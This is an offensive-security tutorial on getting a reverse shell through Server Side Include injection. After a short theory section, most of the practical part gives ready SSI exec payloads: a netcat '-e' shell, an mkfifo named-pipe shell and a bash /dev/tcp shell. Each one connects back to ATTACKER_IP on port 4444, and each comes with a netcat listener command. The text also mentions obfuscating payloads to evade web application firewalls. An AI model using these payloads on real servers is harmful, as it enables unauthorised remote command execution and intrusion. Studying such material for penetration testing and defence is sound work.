

# Reverse Shell

## Context

The objective of this article is to demonstrate how to achieve a reverse shell via Server Side Include (SSI) injection for remote access and post-exploitation. It is assumed that the reader has knowledge of server side includes, shell commands, network sockets, and the technique of Server Side Include Injection.

## Theory

### Reverse Shell Fundamentals in SSI Context

A reverse shell is a shell session initiated from the target server back to the attacker's host, enabling remote command execution. This technique is particularly useful because it allows attackers to bypass inbound firewall restrictions by having the target system connect outward to an attacker's listener, typically set up on a controlled machine. 

In a typical attack sequence, the attacker injects a Server Side Include (SSI) payload into a vulnerable web application. This payload can execute shell commands, resulting in the server connecting back to the attacker’s machine where the attacker prepared a listening service. This service receives connections from the target and establishes a remote shell session.

### SSI Payload Construction for Reverse Shells

The SSI `<!--#exec cmd=...-->` directive executes arbitrary shell commands on vulnerable web servers. The vulnerability arises when server-side input is improperly filtered or unsanitized, allowing malicious actors to inject shell commands, including those required for a reverse shell. 

Payloads injected through SSIs may require specific encoding or obfuscation to evade input filters or Web Application Firewalls (WAFs), thus ensuring successful execution of the malicious directive.

### Reverse Shell Payload Mechanisms

Common reverse shell payloads utilize commonly available utilities like netcat, bash, or mkfifo to establish outbound connections to the attacker’s system. The data flow from these payloads involves executing a command that spawns an interactive shell process, which connects back to the attacker's predefined IP and port, redirecting the standard input/output over the network socket.



## Practice

### SSI Injection with Netcat Reverse Shell

To execute a reverse shell using netcat, perform the following steps:

- **Start a netcat listener**: 
    ```bash
    nc -lvnp 4444
    ```
  This command sets up a netcat listener on port 4444 on the attacker's machine.

- **Inject SSI Payload**:
    ```html
    <!--#exec cmd="/bin/nc -e /bin/bash ATTACKER_IP 4444" -->
    ```
  This payload is injected into the vulnerable SSI-enabled page to execute netcat, which will connect back to the attacker's machine, executing a bash shell.

Upon successful execution, the attacker will receive an interactive shell from the target server.

### SSI Injection with Bash Reverse Shell (mkfifo method)

Follow these steps to exploit a vulnerable server using a bash reverse shell with mkfifo:

- **Start a netcat listener**:
    ```bash
    nc -lvnp 4444
    ```
  Setup a listener similar to the netcat method above.

- **Inject SSI Payload**:
    ```html
    <!--#exec cmd="mkfifo /tmp/f; /bin/sh </tmp/f | nc ATTACKER_IP 4444 >/tmp/f; rm /tmp/f" -->
    ```
  This payload uses mkfifo to create a named pipe, enabling a bash shell to communicate over the network using netcat.

This technique allows the attacker to gain a shell via bash, using the named pipe mechanism for IO redirection.

### SSI Injection with Bash TCP Reverse Shell (no netcat)

To establish a reverse shell purely using bash, execute the following:

- **Start a netcat listener**:
    ```bash
    nc -lvnp 4444
    ```
  This listener is prepared beforehand to catch the connection.

- **Inject SSI Payload**:
    ```html
    <!--#exec cmd="/bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1" -->
    ```
  This payload utilizes bash's built-in `/dev/tcp` feature to directly establish a TCP connection without auxiliary utilities.

On successful execution, the attacker receives a shell using bash's network capabilities.

## Tools

- **netcat**